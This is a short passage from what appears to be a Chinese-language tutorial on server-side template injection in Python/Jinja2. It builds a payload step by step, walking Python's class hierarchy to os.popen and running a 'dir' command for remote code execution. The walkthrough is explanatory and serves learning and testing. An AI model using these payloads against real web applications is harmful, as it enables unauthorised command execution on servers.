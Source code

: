 ```bash
name={{"".__class__.__bases__[0]. __subclasses__()[138].__init__}}
```

[![在这里插入图片描述](assets/1698900310-0ab73b04d203e300708ba8c4f353ecf8.png)](https://storage.tttang.com/media/attachment/2022/08/14/8befa05f-5eb6-4cd5-9c8f-3cbf580d1cee.png)  
然后再调用\_\_globals\_\_获取到方法内以字典的形式返回的方法、属性等

```bash
name={{"".__class__.__bases__[0]. __subclasses__()[138].__init__.__globals__}}
```

[![在这里插入图片描述](assets/1698900310-5ef126bce053cf750e94195d4830b293.png)](https://storage.tttang.com/media/attachment/2022/08/14/ea0ef73f-7eed-446b-9e13-70ff89b57fc2.png)  
此时就可以去进行 RCE 了

```bash
name={{"".__class__.__bases__[0]. __subclasses__()[138].__init__.__globals__['popen']('dir').read()}}
```
